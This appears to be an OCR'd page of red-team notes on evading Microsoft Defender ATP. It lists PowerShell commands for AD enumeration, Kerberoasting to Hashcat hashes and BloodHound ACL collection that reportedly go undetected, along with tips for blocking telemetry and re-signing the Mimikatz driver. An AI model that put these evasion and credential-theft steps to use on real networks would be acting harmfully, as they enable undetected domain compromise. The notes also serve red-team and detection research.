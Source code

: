 Userland Persistence and AMSI Bypass via Component Object Model Hijacking.

ATP can’t be stopped or uninstalled, even with a SYSTEM account, because of Protected Process Light.

But it’s possible to block ATP communications via DiagTrack Service. Hijack DLL to remove PPL protection? (personal note: not sure)

Mimikatz driver is registered as malicious now, but you change the service name and re-sign it.

It’s possible to block all Windows Defender/ATP Comms via Firewall (1 page 42)

**Not detected**: Using LDAP/Powerview to gather computers/users.

```powershell
Get-NetComputer -verbose -domain prod.local
Get-NetGroupMember -GroupName "Enterprise Admins" -Domain dev.local -verbose
```    

**Not detected**: Enumeration via WMI Local Name Space

Domain User Accounts:

```powershell
Get-WmiObject -Class Win32_UserAccount -Filter "Domain='dev' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired, PasswordChangeable, Description, SID
```

Domain Groups:

```powershell
Get-ComInstance -ClassName Win32_Group -Filter "Domain = 'dev' AND Name like '%Admin%'"
```    

Domain Group User Memberships:

```powershell
Get-CimInstance -ClassName Win32_Group -Filter "Domain = 'dev' AND Name='Enterprise Admins'" | Get-CimAssociatedInstance - Association Win32_GroupUser    
Get-CimInstance -ClassName Win32_Group -Filter "Domain = 'dev' AND Name='Microsoft Advanced Threat Analytics Administrator'" | Get-CimAssociatedInstance - Association Win32_GroupUser
```

**Not detected**: SPN Enumeration & Kerberoasting

```powershell
Get-NetComputer -SPN mssql*
Get-NetUser -SPN | Get-SPNTicket -OutputFormat Hashcat
```    

**Not detected**: Silver ticket

The golden ticket is a forged TGT, Silver ticket is a forged TGS. No DC server contacted.

**Not detected**: Enumerating AD Access Control Entries

```powershell
Invoke-BloodHound -CollectionMethod ACL -ExcludeDC
```     

**Not detected**: Escalation via Selective AD ACL Abuse
